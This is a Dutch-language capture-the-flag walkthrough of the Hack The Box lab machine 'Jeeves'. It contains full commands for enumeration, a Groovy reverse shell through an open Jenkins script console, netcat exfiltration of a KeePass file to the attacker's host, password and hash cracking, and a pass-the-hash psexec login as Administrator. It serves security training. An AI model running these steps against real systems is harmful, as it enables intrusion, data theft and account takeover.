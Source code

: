 # Jeeves volledige tutorial

### 1 Nmap

<figure><img src=".gitbook/assets/Jeeves 1.png" alt=""><figcaption></figcaption></figure>

1: Ik open een nieuwe terminal 2: ik maak een directory genaamd jeeves waar ik alles in ga uitvoeren. Ik doe dit met mkdir en de vlag -p zodat ik in 1 keer alle tussen directories ook maak. mocht /htb niet bestaan dan wordt die ook aangemaakt. met ; plak ik gelijk een 2e commando er achter namelijk cd dus dan ga ik naar die directory.

```
mkdir -p /root/htb/jeeves;cd /root/htb/jeeves
```

3: Ik voer een volledige nmap scan uit. Ik check alle poorten (65k+ poorten) met -p- en met -A voer ik een groot aantal nmap scans uit waaronder versie detectie, os detectie en standaard scripts. dit doe ik om zoveel mogelijk info te verzamelen. Het stukje -oX en --stylesheet. zorgt ervoor dat ik een mooie output krijg aan het einde.

```
nmap -A -p- 10.10.10.63 -oX nmapout --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl
```

4: Output bekijken door middel van het nmapout bestand te openen met firefox

```
firefox nmapout
```

<figure><img src=".gitbook/assets/Jeeves 5.png" alt=""><figcaption></figcaption></figure>

5: Poort 80 is open dat is een webserver Poort 50000 lijkt ook een webserver

poorten 135 en 445 zijn smb.

### 2 Webservers enumerenen

1: Laten we beginnen met 2 gobuster scans om alle directories te zien van de 2 webservers

Gobuster voor poort 80

```
gobuster dir -u http://10.10.10.63 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,asp,aspx

```

Gobuster voor poort 50000

```
gobuster dir -u http://10.10.10.63:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,asp,aspx
```

**Vlaggen uitleg**

Gobuster doet dus directory enumeratie.

* **dir**: De modus om directories te enumereren. Dit vertelt Gobuster dat het op zoek moet gaan naar directories en bestanden op de opgegeven server.
* **-u**: Hiermee geef je de URL van de doelserver op. In dit geval is het `http://10.10.10.63:50000`
* **-w**: Hiermee specificeer je de wordlist die Gobuster moet gebruiken. In dit geval is het pad naar de wordlist `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`. Deze wordlist bevat een lijst met potentiële directories en bestanden die Gobuster probeert te vinden.
* **-x**: Hiermee kun je bestandsextensies specificeren. In dit geval zoekt Gobuster naar bestanden met de extensies `html`, `txt`, `asp`, en `aspx`. html en txt doe ik altijd standaard. maar asp en aspx is omdat nmap liet zien dat het gaat om een iis windows server.

**Resultaten**

<figure><img src=".gitbook/assets/Jeeves 9.png" alt=""><figcaption></figcaption></figure>

&#x20;Op het 50000 poort vinden we /askjeeves. dit is het enige interessante wat we tussen de 2 hebben gevonden.

### 3 AskJeeves

<figure><img src=".gitbook/assets/Jeeves 10.png" alt=""><figcaption></figcaption></figure>

We zijn beland op een Jeniks pagina zonder login scherm. We zijn gelijk binnen.

**Exploitatie**

Deze Jenkins pagina's kunnen code executen. Zowel windows system command's als groovy script.

Laten we kijken naar een reverseshell via Groovescript.

<figure><img src=".gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

Laten we drukken op Manage Jenkins en Script console&#x20;

<figure><img src=".gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

In dit vak plaatsen we onze groovy script revershell die we gaan maken met revshells.com&#x20;

<figure><img src=".gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

&#x20;1: Voer hier je eigen ipadres in. Dit kan je vinden door

```
ifconfig tun0 | grep 'inet ' | awk '{print $2}'
```

2: voer hier een willekeurige poort 9002 is gewoon goed

3: Kies windows

4: Kies Groovy

5: Kies cmd

6: kopier dit command en plaats dit in een nieuwe terminal. dit is onze listener voor de reverseshell

<figure><img src=".gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

Kopier het gemaakte script en druk op run

<figure><img src=".gitbook/assets/15.png" alt=""><figcaption></figcaption></figure>

&#x20;We hebben toegang als gebruiker Jenkins

### 4 Priv Esc

<figure><img src=".gitbook/assets/16.png" alt=""><figcaption></figcaption></figure>

&#x20;Zoals gewoonlijk vinden we de userflag op het bureaublad van een gebruiker.

Maar voor de root flag hebben we admin toegang nodig.

<figure><img src=".gitbook/assets/17.png" alt=""><figcaption></figcaption></figure>

Tijdens het doorzoeken van de bestanden van de gebruiker Kohsuke vinden we een .kdbx bestand dat is een KeePass database bestand. Dit kunnen we laden in het programma keepass om info van deze database te bekijken.

laten we dit bestand sturen naar onze kali machine.

**Exfiltratie**

<figure><img src=".gitbook/assets/18.png" alt=""><figcaption></figcaption></figure>

&#x20;1: Laten we beginnen met het downloaden van nc64.exe van github. dit is een statische versie van netcat. Netcat kan ons helpen met bestanden uit de windows machine op onze machine zetten.

```
python3 -m http.server 80
```

2: n de zelfde directory waar ik mijn nc64.exe heb staan start ik een python webserver.

3: Laten we nu nc64.exe op de windows machine zetten met powershell invoke webrequest. Hieronder een goeie link

https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters

```
powershell -c Invoke-WebRequest "http://10.10.14.5/nc64.exe" -OutFile "nc64.exe"
```

4: Nu het bestand sturen naar onze linux machine Op de kali machine

```
nc -lvnp 4444 > CEH.kdbx
```

op de windows machine

```
nc64.exe -vn 10.10.14.5 4444 < CEH.kdbx
```

**Keepbase database wachtwoord kraken**

1: Voor het kraken van het wachtwoord kunnen we keepass2john gebruiken om het wachtwoord wat hier op staan te veranderen naar een hash dat we kunnen kraken met john.

```
keepass2john CEH.kdbx > CEH.kdbx.hash
```

2: Met het volgende commando kraken we de hash met gebruik van rockyou.txt

```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=KeePass CEH.kdbx.hash
```

<figure><img src=".gitbook/assets/19.png" alt=""><figcaption></figcaption></figure>

&#x20;Het wachtwoord blijkt moonshine1 te zijn.

**Database bekijken**

<figure><img src=".gitbook/assets/20.png" alt=""><figcaption></figcaption></figure>

Met het programma kpcli, wat gewoon te instaleren valt via

```
apt install kpcli
```

1: kunnen we met --kdb het database bestand kiezen

```
kpcli --kdb CEH.kdbx
```

2: Met find . kunnen we de entries bekijken

```
find .
```

3: en met show kunnen we individuele entires bekijken

```
show -f 0
```

we zien hier een als output een NTLM hash

in het formaat LM HASH : NT HASH

aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

***

We hopen dat dit de hash van de admin is. Laten we het eens checken met NetExec. We hadden namelijk ook 2 SMB poorten die open stonden.

***

**Root shell met psexec**

<figure><img src=".gitbook/assets/21.png" alt=""><figcaption></figcaption></figure>

&#x20;We checken onze rechten op smb met gebruik van nxc met de gebruikersnaam Administrator en de hash

```
nxc smb 10.10.10.63 -u "Administrator" -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

nu we zien dat er pwn3d staat weten we dat we met psexec root kunnen krijgen

```
python3 /usr/local/bin/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63 cmd.exe
```

<figure><img src=".gitbook/assets/22.png" alt=""><figcaption></figcaption></figure>

&#x20;we zijn admin

<figure><img src=".gitbook/assets/23.png" alt=""><figcaption></figcaption></figure>

We zien dat de rootflag niet in Desktop staat.

<figure><img src=".gitbook/assets/24.png" alt=""><figcaption></figcaption></figure>

met dir /a kunnen we hidden bestanden laten zien. Maar alsnog vinden we niks.

<figure><img src=".gitbook/assets/25.png" alt=""><figcaption></figcaption></figure>

&#x20;Maar als we dir /r gebruiken voor alternatieve data streams vinden we wel het bestand.

<figure><img src=".gitbook/assets/26.png" alt=""><figcaption></figcaption></figure>

Met more kunnen we de vlag uitlezen
